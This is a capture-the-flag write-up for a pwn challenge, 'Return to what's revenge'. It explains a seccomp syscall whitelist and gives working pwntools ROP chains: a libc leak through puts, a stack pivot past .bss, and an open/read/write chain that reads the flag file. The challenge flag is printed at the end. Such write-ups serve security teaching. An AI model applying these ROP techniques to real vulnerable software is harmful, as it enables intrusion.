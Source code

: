 # Return to what's revenge
__Category__: Pwn   
__Points__: 442   

> My friends kept making fun of me, so I hardened my program even further!    
> The flag is located at /chal/flag.txt
> 
> `nc chal.duc.tf 30006`
>
> Attachement: [return-to-whats-revenge](./return-to-whats-revenge)

### Challenge Overview
This challenge was an extension of [Return to What](https://ctftime.org/task/13024), where you had to exploit a buffer-overflow with ROP to spawn a shell.   
Here is the core function of the binary:  
![](./vuln.png)   

The only difference was that the new binary had a function named `sandbox()`   
which installed a BPF-program to create a whitelist of syscalls.

```c
void sandbox(void)

{
    sock_fprog prog;
    sock_filter filter [25];
    bpf_labels lab;
    
    filter[0].code = 32;
    filter[0].jt = '\0';
    filter[0].jf = '\0';
    filter[0].k = 4;
    [...]
    filter[23].code = 6;
    filter[23].jt = '\0';
    filter[23].jf = '\0';
    filter[23].k = 2147418112;
    filter[24].code = 6;
    filter[24].jt = '\0';
    filter[24].jf = '\0';
    filter[24].k = 0;
    bpf_resolve_jumps(&lab,filter,25);
    prog.len = 25;
    prog.filter = filter;
    prctl(PR_SET_NO_NEW_PRIVS,1,0,0,0);
    prctl(PR_SET_SECCOMP,2,&prog);
    return;
}
```

The BPF-code did something like this:
```python
if dst in [15, 231, 60, 2, 0, 1, 12, 9, 10, 3]:
    return SECCOMP_RET_ALLOW
else:
    return SECCOMP_RET_KILL_THREAD
```
where `dst` holds the value of the system-call.   
This meant that only the following system-calls were allowed:
- sigreturn
- exit_group
- exit
- read
- write
- open
- close
- brk
- mmap
- mprotect

### Exploit Overview
First we had to leak some libc-pointers in order to get the correct libc-version. This could be done with a ROP-chain that calls `puts()` on some
.got entries. I went with `setvbuf`, `puts` and `gets` and got:
```
[*] setvbuf @ 0x7ff16e2742f0
[*] puts @ 0x7ff16e2739c0
[*] gets @ 0x7ff16e2730b0
```
Entering the offsets into a [libc-database](https://libc.rip) yielded
libc6_2.27-3ubuntu1_amd64.

Now that everything is set up we can come to the actual ROP-chains.
I used two ROP-chains, one for leaking libc-addresses and stack-pivoting and one to perform the actual syscalls.    
The first ROP-chain looked like this...
```python
conn.sendline(flat([
    b"A" * 56,
    GADGETS["pop rdi; ret"],
    p64(return_to_whats_revenge.got["setvbuf"]),
    p64(return_to_whats_revenge.plt["puts"]),
    GADGETS["pop rdi; ret"],
    p64(return_to_whats_revenge.got["puts"]),
    p64(return_to_whats_revenge.plt["puts"]),
    GADGETS["pop rdi; ret"],
    p64(return_to_whats_revenge.got["gets"]),
    p64(return_to_whats_revenge.plt["puts"]),
    GADGETS["pop rdi; ret"],
    p64(new_stack),
    p64(return_to_whats_revenge.plt["gets"]),
    GADGETS["pop rsp; pop r13; pop r14; pop r15; ret"],
    p64(new_stack)
]))
```
... leaking the three .got entries like above, writing a new
ROP-chain to `new_stack` which is directly after the .bss-section
(0x404050) and then doing a stack-pivot via `pop rsp` into that area.    
We can utilize the area behind .bss because the OS always allocates so-called _pages_
of memory, which are 4096 bytes in size. The .bss-section however takes up only 48 bytes leaving 4096 - 48 bytes allocated but unused. Enough room for small - medium sized ROP-chains.

The second ROP-chain looked like this:
```python
conn.sendline(flat([
    b"/chal/flag.txt".ljust(24, b"\x00"),
    GADGETS["ret"] * 5,
    
    # open("/chal/flag.txt", 0, 0) = 3
    GADGETS["pop rdi; ret"],
    p64(new_stack),
    GADGETS["pop rsi; pop r15; ret"],
    p64(0),
    p64(0),
    LIBC_GADGETS["pop rdx; ret"],
    p64(0),
    LIBC_GADGETS["pop rax; ret"],
    p64(2),
    LIBC_GADGETS["syscall; ret"],
    
    # read(3, new_stack, 64)
    LIBC_GADGETS["pop rax; ret"],
    p64(0),
    GADGETS["pop rdi; ret"],
    p64(3),
    GADGETS["pop rsi; pop r15; ret"],
    p64(new_stack),
    p64(0),
    LIBC_GADGETS["pop rdx; ret"],
    p64(64),
    LIBC_GADGETS["syscall; ret"],
    
    # write(1, new_stack, 64)
    LIBC_GADGETS["pop rax; ret"],
    p64(1),
    GADGETS["pop rdi; ret"],
    p64(1),
    GADGETS["pop rsi; pop r15; ret"],
    p64(new_stack),
    p64(0),
    LIBC_GADGETS["pop rdx; ret"],
    p64(64),
    LIBC_GADGETS["syscall; ret"]
]))
```
The first 24 bytes will go into `r13`, `r14` and `r15` (from the first
ROP-chain) and the 5 `ret`-gadgets will fill the first 64 bytes of the
new stack. After that we do an `open()`+`read()`+`write()` in the
usual manner. The buffer used for reading and writing are the first
64 bytes of the new stack. 

### Flag
DUCTF{secc0mp_noT_$tronk_eno0Gh!!@}
